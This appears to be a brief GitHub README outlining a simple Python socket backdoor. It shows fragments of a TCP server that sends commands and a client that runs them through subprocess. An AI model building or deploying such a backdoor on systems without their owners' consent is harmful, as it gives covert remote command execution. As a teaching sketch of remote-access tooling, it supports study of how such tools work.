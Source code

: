 # Backdoor-Client-Server-Socket-Python
Simple backdoor using lib python's socket

# lib
- `from socket import *` # for connection
- `import subprocess` # for cmd command

# Server
- `sock = socket(AF_INET, SOCK_STREAM)` # set TCP socket
- `port = 12345` # port of server
- `sock.bind(('', port)) && sock.listen(1)` # set server
- `conn, addr = sock.accept()` # conn = connection && addr = (client)address
- `conn.send(command.encode())` # send in array bytes
- `conn.recv(1024).decode("utf-8")` #receive and convert in string

# Client
- `CMD = subprocess.Popen(command, ...)` # set subprocess for send CMD command

![Image](https://github.com/NoNameoN-A/Backdoor-Client-Server-Socket-Python/edit/main/screenshot.png)
